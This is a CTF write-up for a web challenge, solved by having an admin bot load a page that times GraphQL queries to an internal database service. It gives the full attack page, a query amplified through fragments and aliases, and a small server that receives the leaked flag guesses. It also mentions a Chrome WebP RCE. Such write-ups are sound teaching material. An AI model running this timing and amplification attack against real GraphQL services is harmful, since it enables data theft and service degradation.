



Jujutsu kaisen

# Intro
Category: Web  
Description: Who the HELL leaked my JJK db?  
Source available: Yes

Following the discovery of an unintended solution by team sigpwny, a second version was released with a patch.  
We didn't found that unintended solution, so this write up is about a solution solving both versions.

The flag to find is inside the DB of the service jjk_db.

# Discovery
We got 6 services.

* jjk_app, a backend serving external http call
* jjk_db, another backend supposed to be accessible only through other docker components
* varnish, a proxy that redirects calls between jjk_app and jjk_db
* bot, a bot that will login on jjk_app and visit URLs we provide
* redis, used to store URLs the bot should visit
* nginx, with a note that we shouldn't attack it



## Varnish
Let's start with this service, that is quite straightforward.

When our HTTP(S) request is from an internal IP (`localhost`, `192.168.0.0/16`, `172.0.0.0/8`) and the host is `jjk_db`, the request is forwarded to jjk_db.  
Otherwise requests are sent to jjk_app.

So all our requests will always go to jjk_app.

## jjk_app
This is a Flask backend.

Its cookies have the following properties:
```python
app.config.update(
    SESSION_COOKIE_SECURE=True,
    SESSION_COOKIE_HTTPONLY=True, # default flask behavior just does this
    SESSION_COOKIE_SAMESITE='None',
)
```

It mainly has two interesting unauthenticated APIs  
1/ `POST /visit` that we can use to submit URLs that the bot will visit. The URL scheme must be either http or https.  
2/ `POST /login` that checks if provided credentials correspond to admin credentials, stored in environment variable.

There is no way to create a new account, and we can only login as admin.

In terms of authenticated APIs there are three of them:  
1/ `GET /characters`  
Dumps the DB of jjk_db, bringing the flag. Spoiler: we didn't use that. It felt like the author was trolling us with this endpoint :)

2/ `POST /newchar`  
Should create a new character in the DB of jjk_db.  
Spoiler, that DB never inserts new characters.

Additionally it takes a PNG image that will be stored (random filename), the endpoint then sends a `redirect` towards that image.

3/ `GET /view/<img_file_name>`  
Returns the stored image. ¯\\\_(ツ)\_/¯

## jjk_db
This is also a Flash backend. However this one has a graphql API to query and mutate the database that contains the flag.

## bot
Launch Google chrome in incognito mode.  
Opens a first page to login on jjk_app using the admin credentials.  
Opens a second page on our URL.

## redis
Well, it's redis, that's it.

## Nginx
It is visible, outside docker-compose. It redirects calls to varnish.

# Attacks
## Successful attack: Timing attack
The idea is to use the bot to make calls to jjk_db to determine one character in the flag, and mesure the response time to know if the character is correct or not.



### Making the bot contact jjk_db
Because in docker-compose.yaml no network is specified, all containers join the default network and can contact each other.

That means the bot can curl `http://jjk_db:9090/?query=...` and launch any query that it wants.

### Getting some data out of the bot call
If our call to `/visit` ask the bot to visit jjk_db, we will not know what happened. The bot visits the URL and that's it.  
So we want the bot to load a malicious page that will contact jjk_db.  
There are multiple ways to do so, for example using an iframe or using a `fetch()` inside a script etc.  
The thing is, whatever the way forward, we are facing CORS issues because our html page comes from a domain which is not jjk_db, and that jjk_db does not provide CORS headers.  
The consequences is that we'll never be able to access any information about the response made to jjk_db. Either the browser forbids the access of the iframe's document property, or using fetch we need to use the "no-cors" move, leading to an [opaque response](https://tpiros.dev/blog/what-is-an-opaque-response/) (actually, we could only do this fetch during some local tests where opened some ports in the docker-compose).

So in the end we used an iframe.  
Regarding the response, as we cannot intercept it nor the content of the iframe, we thought about computing its loading time.  
We can then ask the fetch to fetch our server with a query parameter containing that loading time. We set a dummy endpoint `/a` for that purpose.

Our malicious page looks like:
```html
<html>
  <head></head>
  <body>
    <script type="text/javascript">
      let start = Date.now();

      function onLoad() {
        let dt = (Date.now() - start) / 1000
        fetch('/a?secSpent=' + dt)
      }
    </script>
    <iframe id="frame" src='http://jjk_db:9090/?query=...' onload="onLoad()"></iframe>
  </body>
</html>

```

### Graphql query
Now what's left is to determine the flag based on the response time we got.

#### Understanding the graphql schema
Looking at the code was quite hard to determine what we could actually do in terms of graphql.  
Instead we used the rest client `Insomnia` (btw, their latest version is shit, they now require automatic syncing in the cloud). To handle graphql queries, it contacts the server (open ports locally) to get the full schema and propose autocompletion and error analysis.  
We also used a [generic graphql query]((https://gist.github.com/franzejr/d0a178286d0e23d3ed50999288806068)) to get the full schema.

What mainly interested us is the `getCharacters` method that allow many filtering the underlying data.  
We'll see examples quite soon, so let's not dive more on graphql please <3

#### Showing data when we are guessing the right flag
What we saw is the existence of a `notesIlike` filter, that allows to show data only if our prefix of flag is correct.

Query:
```graphql
{
  getCharacters(
    filters: { and: [{ name: "Choso" }, { notesIlike: "maple{fak%" }] }
  ) {
    edges {
      node {
        notes
      }
    }
  }
}
```

Response:
```json
{
  "data": {
    "getCharacters": {
      "edges": [
        {
          "node": {
            "notes": "maple{fake}"
          }
        }
      ]
    }
  }
}
```

Query 2:
```graphql
{
  getCharacters(
    filters: { and: [{ name: "Choso" }, { notesIlike: "maple{fal%" }] }
  ) {
    edges {
      node {
        notes
      }
    }
  }
}
```

Response 2:
```json
{
  "data": {
    "getCharacters": {
      "edges": []
    }
  }
}
```

#### Increasing response time of graphql when we guess the flag
The basic query runs in few milliseconds whether we guessed the flag prefix or not.  
As our malicious html page cannot see the result (correct guess VS incorrect guess), but only the loading time it is critical to increase the query duration when the guess is correct.

##### Not working: Using sleep
We looked for an injection where we could put some "sleep(1)", but couldn't find one.

##### Not working: Many filters
We then thought about adding MANY filters.  
Our basic filter will write the SQL `name = 'Choso' AND notes LIKE 'maple{fak%'`. If we add many AND conditions and the SQL db stops as soon as one condition is wrong, incorrect guess would stop the query early.
Well, that didn't work either, they all are always executed ^^

##### Working: Fragment amplification
While reading graphql documentation, we learnt about fragments and aliases.

Aliases are used to rename a field in the response.  
Without aliases, when asking multiple time the same field, the server will find there is some duplication. It will then ensure the response contains that field once.  
Aliases allow this duplication.

Query:
```graphql
{
  getCharacters(
    filters: { and: [{ name: "Choso" }, { notesIlike: "maple{fal%" }] }
  ) {
    foo: edges {
      node {
        notes
      }
    }
    bar: edges {
      node {
        notes
      }
    }
  }
}
```

Response:
```json
{
  "data": {
    "getCharacters": {
      "foo": [],
      "bar": []
    }
  }
}
```

In the query above, for `foo` and `bar` we are writing twice `{ node { notes } }`.  
Fragment allows to write it once, and use the fragment name in the query.  

Sounds complex, but actually look how our query now looks like:
```graphql
{
  getCharacters(
    filters: { and: [{ name: "Choso" }, { notesIlike: "maple{fal%" }] }
  ) {
    foo: edges {
      ...t
    }
    bar: edges {
      ...t
    }
  }
}

fragment t on CharactersTypeDefEdge {
  node {
    notes
  }
}
```

Now, that might seem innoffensive at first, but we thought:
> What if our fragment contains aliass too?

In the example below, we have 3 edges, each will have 3 nodes so 9 nodes will be display in the end.  
With 50 edges and 50 nodes, that's gonna be 2500 nodes.  
That's quite an amplification, without writing a huge query (we were afraid of URL size limitation, but apparently there was none).

With that amplification, on the server, a correct guess would take more than 3s to load, while an incorrect guess would take about 500-1000ms. The difference is big enough to differentiate those, while taking into account network latency and other randomness.
```graphql
{
  getCharacters(
    filters: { and: [{ name: "Choso" }, { notesLike: "%maple{fa%" }] }
  ) {
    foo: edges {...t2}
    bar: edges {...t2}
    baz: edges {...t2}
  }
}
fragment t on CharactersTypeDef {
  name
  id
  occupation
  cursedTechnique
  imgFile
  notes
  __typename
}
fragment t2 on CharactersTypeDefEdge {
  foo: node {...t}
  bar: node {...t}
  baz: node {...t}
}
```

### Putting it all together
#### Malicious page
We make the bot bruteforce characters on its side. This is where our guess will be the most accurate (avoid network randomness).
```html
<html>
<head>
</head>
<body>
<script type="text/javascript">
  const url = 'http://jjk_db:9090/?query={getCharacters(filters: { and: [{ name: "Choso" }, { notesIlike: "%__FUZZ__%" }] }) {a01: edges {...t2},a02: edges {...t2},a03: edges {...t2},a04: edges {...t2},a05: edges {...t2},a06: edges {...t2},a07: edges {...t2},a08: edges {...t2},a09: edges {...t2},a11: edges {...t2},a12: edges {...t2},a13: edges {...t2},a14: edges {...t2},a15: edges {...t2},a16: edges {...t2},a17: edges {...t2},a18: edges {...t2},a19: edges {...t2},a21: edges {...t2},a22: edges {...t2},a23: edges {...t2},a24: edges {...t2},a25: edges {...t2},a26: edges {...t2},a27: edges {...t2},a28: edges {...t2},a29: edges {...t2},a31: edges {...t2},a32: edges {...t2},a33: edges {...t2},a34: edges {...t2},a35: edges {...t2},a36: edges {...t2},a37: edges {...t2},a38: edges {...t2},a39: edges {...t2},a41: edges {...t2},a42: edges {...t2},a43: edges {...t2},a44: edges {...t2},a45: edges {...t2},a46: edges {...t2},a47: edges {...t2},a48: edges {...t2},a49: edges {...t2},a51: edges {...t2},a52: edges {...t2},a53: edges {...t2},a54: edges {...t2},a55: edges {...t2},a56: edges {...t2},a57: edges {...t2},a58: edges {...t2},a59: edges {...t2}}},fragment t on CharactersTypeDef {name,id,occupation,cursedTechnique,imgFile,notes,__typename},fragment t2 on CharactersTypeDefEdge {a01: node {...t},a02: node {...t},a03: node {...t},a04: node {...t},a05: node {...t},a06: node {...t},a07: node {...t},a08: node {...t},a09: node {...t},a11: node {...t},a12: node {...t},a13: node {...t},a14: node {...t},a15: node {...t},a16: node {...t},a17: node {...t},a18: node {...t},a19: node {...t},a21: node {...t},a22: node {...t},a23: node {...t},a24: node {...t},a25: node {...t},a26: node {...t},a27: node {...t},a28: node {...t},a29: node {...t},a31: node {...t},a32: node {...t},a33: node {...t},a34: node {...t},a35: node {...t},a36: node {...t},a37: node {...t},a38: node {...t},a39: node {...t},a41: node {...t},a42: node {...t},a43: node {...t},a44: node {...t},a45: node {...t},a46: node {...t},a47: node {...t},a48: node {...t},a49: node {...t},a51: node {...t},a52: node {...t},a53: node {...t},a54: node {...t},a55: node {...t},a56: node {...t},a57: node {...t},a58: node {...t},a59: node {...t}}'
  const chars = "abcdefghijklmnopqrstuvwxyz0123456789}"
  let start = Date.now();
  let baseFlag = 'maple{'
  let chars_idx = 0

  function loadFrame() {
    start = Date.now();
    document.getElementById("frame").src = url.replace("__FUZZ__", baseFlag + chars[chars_idx])
  }
  
  function onLoad() {
    let dt = (Date.now() - start) / 1000
    fetch('/a?secSpent=' + dt + "&flag=" + baseFlag + chars[chars_idx])

    if(dt > 0.15) {
      baseFlag += chars[chars_idx]
      chars_idx = 0
    } else if(chars[chars_idx] != '}') {
      chars_idx += 1
    } else {
      baseFlag += '_'
      chars_idx = 0
    }

    setTimeout(loadFrame, 300)
  }
</script>
<iframe id="frame" src='' onload="onLoad()"></iframe>
<script type="text/javascript">
  loadFrame()
</script>
</body>
</html>
```

#### Malicious web server
Very simple, CORS are certainly useless but it's a copy paste from our team notes to build a dummy web server ^^  
The /a endpoint will receive the flag, we can see that in the log of the service.
```python
from flask import Flask, render_template
from flask_cors import CORS, cross_origin
app = Flask(__name__, template_folder='templates')
cors = CORS(app)
app.config['CORS_HEADERS'] = 'Content-Type'

@app.route("/")
@cross_origin()
def helloWorld():
  return render_template('app.html')

@app.route("/a")
@cross_origin()
def helloWorld2():
  return ""
```



## Alternative attack: Webp CVE
If the binary of google-chrome used by Puppeteer has not been patched, we can craft a webp image that will give us a RCE on `bot`.

Working that out is an exercise for the reader.

# Conclusion
That challenge was quite a struggle, we went in so many different directions before finding an attack vector that worked.  
We discovered opaque response and also found a new attack vector against graphql APIs.

Thank you Vie for the challenge. It was a really great and hard challenge.  
As there is so much stuff we didn't use, it's certainly unintended. We're eager to see the attack vector that was intended.

Also a bit thank to Maple-chan, that was telling us to not give up ^^
